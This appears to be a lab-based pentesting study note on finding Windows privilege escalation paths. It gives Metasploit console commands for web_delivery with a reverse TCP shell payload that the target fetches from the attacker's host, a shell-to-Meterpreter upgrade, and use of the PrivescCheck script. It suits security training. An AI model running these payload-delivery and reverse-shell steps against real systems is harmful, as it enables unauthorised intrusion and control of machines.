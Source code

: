 # Windows: Identifying Privilege Escalation Vulnerabilities
> The assumption here is that you have gained access to a Windows system, but you do not have elevated privileges (you do not have NT AUTHORITY or SYSTEM). You have gained access as a normal user or via a service account.

## Contents
- []()
- []()
- []()
- []()
- []()
  - []()
  - []()
  - []()
  - []()
  - []()
  - []()
  - []()
  - []()
  - []()

## Intro

### Identifying PrivEsc Vulnerabilities
- In order to elevate your privileges in Windows, you must first identify privilege escalation vulnerabilities on the target system.
- This process will differ greatly based on the type of target you gain access to.
  - Privilege escalation on Windows can be performed through a plethora of techniques based on the version of Windows and the system's unique configuration.
- This process can be quite tedious and time consuming.
  - As a result it is recommended to automate this process of identifying privilege escalation vulnerabilities.
  - This can be done through the use of various automation scripts. One of the best is PrivescCheck...

### Script: PrivescCheck
- [PrivescCheck](https://github.com/itm4n/PrivescCheck): this script aims to enumerate common Windows configuration issues that can be leveraged for local privilege esclation.
  - It also gathers various information that might be useful for exploitation and/or post-exploitation.
- It also gathers various information that might be useful for exploitation and/or post-exploitation.
  - Description: This script aims to identify Local Privilege Escalation (LPE) vulnerabilities that are usually due to Windows configuration issues, or bad practices. It can also gather useful information for some exploitation and post-exploitation tasks.

## Techniques & Tools
> The following is from a lab. It should give you the general contect and process of using the technique with the tools.

### MetaSploit Module: [web_delivery](https://www.offsec.com/metasploit-unleashed/web-delivery/)
> This is a module that creates a server on the attacking machine which hosts a payload. When the victim connects to the attacking server, the payload will be executed on the victim machine.
>
> This module spins up a web server that hosts a payload (based on the target operating system). When you hit run/exploit, it generates some PowerShell code. You copy that PowerShell code and execute it on the target machine. When you run that code on the target, it will download the payload and execute the exploit.
```
> use exploit/multi/script/web_delivery
> show info  # To see what it does
> set target PSH\ (Binary)
> set payload windows/shell/reverse_tcp
> set PSH-EncodedCommand false  # we do not want the ps script encoded
> set LHOST [attack ip or eth#]
> exploit
```
- Copy all the code it spits out.
  - Go to the target system and open a command prompt session (cmd.exe)
  - Right-click in the cmd window and that will paste in your script.
  - Hit ENTER
- Back into your Kali attack machine. You should have a command shell.
- We have access via the user "student."
  - Confirm that with `whoami`
  - Verify the hostname with `hostname`

### Migrate to Meterpreter
- Migrate your command shell you just obtained to a meterpreter session.
```
ctrl + z   # to background the session; still in msfconsole...
> search shell_to
> use post/multi/manage/shell_to_meterpreter
> set LHOST [attack ip]
> set SESSION [meterpreter session #]
> show advanced
  # We need to change the WIN_TRANSFER option
  # Instead of the transfer method being PowerShell, we want VisualBasic (VBS)
> set WIN_TRANSFER VBS
> run/exploit
```
- Go into your meterpreter session. Migrate to a 64-bit process (explorer.exe)
- cd over to the PrivescCheck subdir...
- Open a command shell session in this subdir: `> shell`

### Execute PrivescCheck
- Head over to the [PrivescCheck GitHub repo](https://github.com/itm4n/PrivescCheck) and read how to use it. Copy it.
- You want to copy that entire script and paste it into the shell prompt you just got from meterpreter.
- ENTER to execute it.
- Once it is finished, it will give you a summary at the bottom.
  - Scroll back up to the top and analyze the results...
  - You get a list of the groups on the system
  - As you work through the list, under each is an indicator if there is a vulnerability or not...
